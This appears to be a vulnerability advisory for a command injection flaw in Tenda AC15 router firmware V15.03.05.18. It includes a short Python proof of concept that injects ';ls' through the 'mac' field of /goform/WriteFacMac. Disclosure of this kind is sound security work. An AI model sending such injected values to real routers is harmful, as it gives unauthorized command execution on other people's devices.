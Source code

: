 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `mac` parameter and the `v3` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.

![image-20240314223205430](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314223205430.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";ls"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314212024903](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314212024903.png)

